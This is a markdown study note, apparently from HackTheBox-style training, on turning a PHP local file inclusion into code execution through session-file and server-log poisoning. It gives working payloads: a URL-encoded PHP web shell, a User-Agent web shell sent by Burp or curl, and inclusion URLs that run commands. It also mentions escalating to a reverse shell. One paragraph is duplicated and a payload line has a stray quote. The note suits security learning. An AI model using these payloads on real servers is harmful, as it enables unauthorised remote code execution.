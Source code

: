 ```yaml
---
title: d-Log Poisoning
draft: false
tags:
  - lfi
---
```

We will talk about the concept of writing PHP code in a field we control that gets logged into a log file.

We can include that log file to execute PHP code later.

For this attack to work, PHP web app should have read privileges over the logged files.

## PHP Session Poisoning

Most PHP web apps use `PHPSESSID` cookies and these details are stored in `session` files on the back end.

- On Linux - `/var/lib/php/sessions`
- On Windows - `C:\Windows\Temp`

The name of the files that contains our user's data matches the name of our `PHPSESSID` cookie with the `sess_` prefix.

For example, if the `PHPSESSID` cookie is set to `el4ukv0kqbvoirg7nkp4dncpk3`, then its location on disk would be `/var/lib/php/sessions/sess_el4ukv0kqbvoirg7nkp4dncpk3`.

First thing we do in a PHP sessions poisoning attack is to examine our PHPSESSID session file and see if it contains any data we can control and poison.

In our example, `PHPSESSID` cookie value is `nhhv8i0o6ua4g88bkdl9u1fdsd`, which should be stored at `/var/lib/php/sessions/sess_nhhv8i0o6ua4g88bkdl9u1fdsd`.

Let's try to include this session files through LFI:

```URL
http://<SERVER_IP>:<PORT>/index.php?language=/var/lib/php/sessions/sess_nhhv8i0o6ua4g88bkdl9u1fdsd
```

Our session file reads as below:

```
pagejs:6:"en.php";preferencejs:7:"English";
```

We can see the session file contains two values:

- `page` - Shows the selected language page.
- `preference` - Shows the selected language.

`page` value is under our control, while `preference` value is not.

We can control `page` value through the `?language=` parameter.

Let's try setting the value of `page` a custom value:

```url
http://<SERVER_IP>:<PORT>/index.php?language=session_poisoning
```

If we include the session file once again:

```url
http://<SERVER_IP>:<PORT>/index.php?language=/var/lib/php/sessions/sess_nhhv8i0o6ua4g88bkdl9u1fdsd
```

We can see that the session file contains `session_poisoning` instead of `es.php`, which confirms our ability to control the value of `page` in the session file:

```
pagejs:17:"session_poisoning";preferencejs:7:"English";
```

Now let's write a PHP code to the session file by changing the `?language=` parameter to URL encoded web shell:

```url
http://<SERVER_IP>:<PORT>/index.php?language=%3C%3Fphp%20system%28%24_GET%5B%22cmd%22%5D%29%3B%3F%3E
```

Finally, we can include the session file and use the `&cmd=id` to execute a commands:

```url
http://<SERVER_IP>:<PORT>/index.php?language=/var/lib/php/sessions/sess_nhhv8i0o6ua4g88bkdl9u1fdsd&cmd=id
```

> Note: To execute another command, the session file has to be poisoned with the web shell again, as it gets overwritten with `/var/lib/php/sessions/sess_nhhv8i0o6ua4g88bkdl9u1fdsd` after our last inclusion. Ideally, we would use the poisoned web shell to write a permanent web shell to the web directory, or send a reverse shell for easier interaction.



## Server Log Poisoning

Both `Apache` and `Nginx` maintain various log files, such as `access.log` and `error.log`.

The `access.log` file contains various information about all requests made to the server, including each request's `User-Agent` header. As we can control the `User-Agent` header in our requests, we can use it to poison the server logs as we did above.

For us to read the poisoned log file through LFI, we need to have read-access over the logs.

For Nginx, low privilege users such as www-data can read logs. However, for Apache, only high privileged users can read the logs.

By default, `Apache` logs are located in `/var/log/apache2/` on Linux and in `C:\xampp\apache\logs\` on Windows, while `Nginx` logs are located in `/var/log/nginx/` on Linux and in `C:\nginx\log\` on Windows.

By default, `Apache` logs are located in `/var/log/apache2/` on Linux and in `C:\xampp\apache\logs\` on Windows, while `Nginx` logs are located in `/var/log/nginx/` on Linux and in `C:\nginx\log\` on Windows.

```url
http://<SERVER_IP>:<PORT>/index.php?language=/var/log/apache2/access.log
```

As we can see, we can read the log. The log contains the `remote IP address`, `request page`, `response code`, and the `User-Agent` header. As mentioned earlier, the `User-Agent` header is controlled by us through the HTTP request headers, so we should be able to poison this value.

Now let's exploit.

Intercept the LFI traffic with Burp Suite and modify the `User-Agent` header to `Apache Log Poisoning`:

```
GET /index.php?language=/var/log/apache2/access.log HTTP/1.1
User-Agent: Apache Log Poisoning
```

Upon sending the traffic, as expected, our custom User-Agent value is visible in the included log file.

Now, we can poison the `User-Agent` header by setting it to a basic PHP web shell:

```
GET /index.php?language=/var/log/apache2/access.log HTTP/1.1
User-Agent: <?php system($_GET['cmd'])' ?>
```

We may also poison the log by sending a request through cURL, as follows:

```shell-session
jadu101@htb[/htb]$ curl -s "http://<SERVER_IP>:<PORT>/index.php" -A "<?php system($_GET['cmd']); ?>"
```

As the log should now contain PHP code, the LFI vulnerability should execute this code, and we should be able to gain remote code execution. We can specify a command to be executed with (`?cmd=id`):

```
GET /index.php?language=/var/log/apache2/access.log&cmd=whoami HTTP/1.1
```

> **Tip:** The `User-Agent` header is also shown on process files under the Linux `/proc/` directory. So, we can try including the `/proc/self/environ` or `/proc/self/fd/N` files (where N is a PID usually between 0-50), and we may be able to perform the same attack on these files. This may become handy in case we did not have read access over the server logs, however, these files may only be readable by privileged users as well.

The following are some of the service logs we may be able to read:

- `/var/log/sshd.log`
- `/var/log/mail`
- `/var/log/vsftpd.log`

We first try to read above logs through LFI, and if we can, we poison them.

